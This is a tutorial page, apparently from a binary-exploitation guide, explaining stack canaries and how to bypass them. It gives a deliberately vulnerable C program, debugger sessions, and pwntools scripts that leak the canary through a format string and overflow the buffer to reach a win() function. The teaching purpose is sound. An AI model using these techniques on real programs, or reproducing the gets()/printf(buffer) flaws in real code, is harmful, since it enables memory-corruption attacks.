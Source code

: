 ```yaml
---
description: The Buffer Overflow defence
---
```


# Stack Canaries

Stack Canaries are very simple - at the beginning of the function, a random value is placed on the stack. Before the program executes `ret`, the current value of that variable is compared to the initial: if they are the same, no buffer overflow has occurred.

If they are not, the attacker attempted to overflow to control the return pointer and the program crashes, often with a `***stack smashing detected***` error message.

> Note: On Linux, stack canaries end in `00`. This is so that they null-terminate any strings in case you make a mistake when using print functions.

## Bypassing Canaries

There are two ways to bypass a canary.

### Leaking it

This is quite broad and will differ from binary to binary, but the main aim is to read the value. The simplest option is using **format string** if it is present - the canary, like other local variables, is on the stack, so if we can leak values off the stack it's easy.

#### Source

```c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Leak me");
    gets(buffer);

    printf(buffer);
    puts("");

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}

void win() {
    puts("You won!");
}
```

The source is very simple - it gives you a format string vulnerability, then a buffer overflow vulnerability. The format string we can use to leak the canary value, then we can use that value to overwrite the canary with itself. This way, we can overflow past the canary but not trigger the check as its value remains constant. And of course, we just have to run `win()`.

#### 32-bit

{% file src="../.gitbook/assets/canary-32.zip" caption="Canary - 32-bit" %}

First let's check there **is** a canary:

```text
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Yup, there is. Now we need to calculate at what offset the canary is at, and to do this we'll use radare2.

```text
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in `00` and looks very random, unlike the libc and stack addresses that start with `f7` and `ff`. If we count the number of address it's around 24 until that value, so we go one before and one after as well to make sure.

```text
$./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

It appears to be at `%23$p`. Remember, stack canaries are randomised for each new process, so it won't be the same.

Now let's just automate grabbing the canary with pwntools:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```text
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Now all that's left is work out what the offset is until the canary, and then the offset from after the canary to the return pointer.

```text
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

We see the canary is at `0xffea8afc`. A little later on the return pointer \(we assume\) is at `0xffea8b0c`. Let's break just after the next `gets()` and check what value we overwrite it with \(we'll use a De Bruijn pattern\).

```text
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Now we can check the canary and EIP offsets:

```text
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

Return pointer is 16 bytes after the canary start, so 12 bytes after the canary.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary) # overwrite canary with original value - stop from triggering
payload += b'A' * 12
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```

#### 64-bit

Same source, same approach, just 64-bit. Try it yourself before checking the solution.

{% hint style="info" %}
Remember, in 64-bit format string goes to the relevant registers first and the addresses can fit 8 bytes each so the offset may be different.
{% endhint %}

{% file src="../.gitbook/assets/canary-64.zip" caption="Canary - 64-bit" %}

### Bruteforcing the Canary

This _is_ possible on 32-bit, and sometimes unavoidable. It's not, however, feasible on 64-bit.

As you can expect, the general idea is to run the process loads and load of times with random canary values until you get a hit, which you can differentiate by the presence of a known plaintext, e.g. `flag{`. this can take ages to run and is not a particularly interesting challenge, frankly.

